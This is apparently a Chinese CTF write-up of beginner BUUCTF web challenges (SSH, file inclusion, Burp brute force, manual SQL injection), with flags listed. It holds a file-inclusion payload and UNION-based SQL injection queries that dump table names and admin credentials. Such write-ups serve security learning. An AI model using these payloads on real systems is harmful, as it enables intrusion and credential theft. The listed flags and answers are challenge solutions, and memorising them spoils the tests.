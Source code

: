 # BUUCTF

## Basic

### Linux Labs

考查ssh指令的使用，直接ssh连接，cat即可获取flag

![image-20240114151014690](PictureFile/BUUCTF通关.assets/image-20240114151014690.png)

flag{a5cc0a97-d829-457e-ac1e-62f70f896fd3}

### BUU LFI COURSE

考查简单的文件包含漏洞，payload：?file=/flag

<img src="PictureFile/BUUCTF通关.assets/image-20240114152244226.png" alt="image-20240114152244226" style="zoom: 67%;" />

flag{16ae1a6f-55f5-4ade-846d-c7cf54159330}

### BUU BRUTE

根据题目可得该题考查利用burp进行爆破。

账号自己试出来的admin，密码进行爆破

![image-20240114153514272](PictureFile/BUUCTF通关.assets/image-20240114153514272.png)

flag{120ab0d6-f8b3-4dc1-8d24-3857935c8366}

### BUU SQL COURSE

考查手动sql注入

id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news')

id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='admin')

id=-1 union select 1,(select group_concat(username) from admin)

id=-1 union select 1,(select group_concat(password) from admin)

得到账号：admin

密码：63126491141fbfd40b40ca68a53a46c1

flag{8957ddca-26d4-4e72-9c91-a09673a935a8}